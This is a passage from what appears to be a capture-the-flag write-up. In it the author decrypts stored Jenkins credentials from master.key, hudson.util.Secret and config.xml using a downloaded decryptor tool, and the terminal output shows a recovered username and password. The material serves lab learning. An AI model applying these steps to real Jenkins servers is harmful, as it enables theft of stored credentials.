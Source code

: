 

Now I can copy that string and `echo` it into `base64 -d` on my local
system to save it to a file.

Downloading the Go binary from jenkins-credential-decryptor like in
[these
instructions](https://github.com/hoto/jenkins-credentials-decryptor#run-using-a-binary)
works great:



    oxdf@hacky$ curl -L \
    >   "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
    >    -o jenkins-credentials-decryptor
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100   687  100   687    0     0   5088      0 --:--:-- --:--:-- --:--:--  5088
    100 2336k  100 2336k    0     0  4382k      0 --:--:-- --:--:-- --:--:-- 10.3M
    oxdf@hacky$ chmod +x jenkins-credentials-decryptor
    oxdf@hacky$ ./jenkins-credentials-decryptor 
    Please provide all required flags.

    Usage:

      jenkins-credentials-decryptor \
        -m master.key \
        -s hudson.util.Secret \
        -c credentials.xml \
        -o json

    Flags:

      -c string
            (required) credentials.xml file location
      -m string
            (required) master.key file location
      -o string
            (optional) output format [json|text] (default "json")
      -s string
            (required) hudson.util.Secret file location
      -version
            (optional) show version

    oxdf@hacky$ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
    [
      {
        "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
        "password": "c1cdfun_d2434\u0003\u0003\u0003",
        "username": "oliver"
      }
    ]



The pwn_jenkins [Python script](https://github.com/gquere/pwn_jenkins)
works as well:
